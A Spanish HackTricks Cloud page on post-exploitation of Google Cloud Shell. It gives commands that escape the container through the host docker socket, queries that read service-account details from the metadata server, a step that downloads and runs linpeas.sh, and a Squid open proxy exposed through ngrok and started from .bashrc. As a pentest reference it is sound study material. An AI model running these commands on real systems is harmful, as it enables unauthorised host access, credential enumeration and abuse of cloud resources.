 # GCP - Post Explotación de Cloud Shell

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
* &#x20;repositorios de github.

</details>

## Cloud Shell

Para más información sobre Cloud Shell, consulta:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Escape de Contenedor

Ten en cuenta que el Google Cloud Shell se ejecuta dentro de un contenedor, puedes **escapar fácilmente al host** haciendo:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Esto no es considerado una vulnerabilidad por Google, pero te da una visión más amplia de lo que está sucediendo en ese entorno.

Además, ten en cuenta que desde el host puedes encontrar un token de cuenta de servicio:
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Con los siguientes alcances:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Enumerar metadatos con LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Después de usar [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) con el token de la Cuenta de Servicio **no se descubrió ningún permiso**...

### Úsalo como Proxy

Si deseas utilizar tu instancia de la terminal de Google Cloud como proxy, necesitas ejecutar los siguientes comandos (o insertarlos en el archivo .bashrc):
```bash
sudo apt install -y squid
```
Solo para que sepas, Squid es un servidor proxy http. Crea un archivo **squid.conf** con la siguiente configuración:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
copiar el archivo **squid.conf** a **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Finalmente ejecuta el servicio squid:
```bash
sudo service squid start
```
Utiliza ngrok para que el proxy esté disponible desde el exterior:
```bash
./ngrok tcp 3128
```
Después de ejecutar, copia la url tcp://. Si deseas ejecutar el proxy desde un navegador, se sugiere eliminar la parte tcp:// y el puerto, y colocar el puerto en el campo de puerto de la configuración de proxy de tu navegador (squid es un servidor proxy http).

Para un mejor uso al iniciar, el archivo .bashrc debería tener las siguientes líneas:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Las instrucciones fueron copiadas de [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Consulta esa página para otras ideas locas para ejecutar cualquier tipo de software (bases de datos e incluso Windows) en Cloud Shell.

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
